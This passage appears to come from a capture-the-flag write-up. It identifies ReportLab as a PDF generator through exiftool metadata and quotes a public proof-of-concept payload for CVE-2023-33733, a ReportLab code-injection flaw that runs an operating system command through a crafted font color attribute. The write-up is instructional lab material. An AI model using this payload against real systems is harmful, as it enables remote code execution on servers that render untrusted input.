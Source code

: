 ```bash
┌──(bravosec㉿fsociety)-[~/Downloads]
└─$ exiftool -a -u output.pdf
[...]
Producer                        : ReportLab PDF Library - www.reportlab.com
[...]
```

- Google : `ReportLab exploit`

> https://github.com/c53elyas/CVE-2023-33733

- POC :

```python
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

Unfortunately, the `user_input` parameter that holds HTML code have a character limit to `300`, both front-end and back-end will check it

![](/assets/obsidian/138cea373ce32d2c5e1129183561b38a.png)
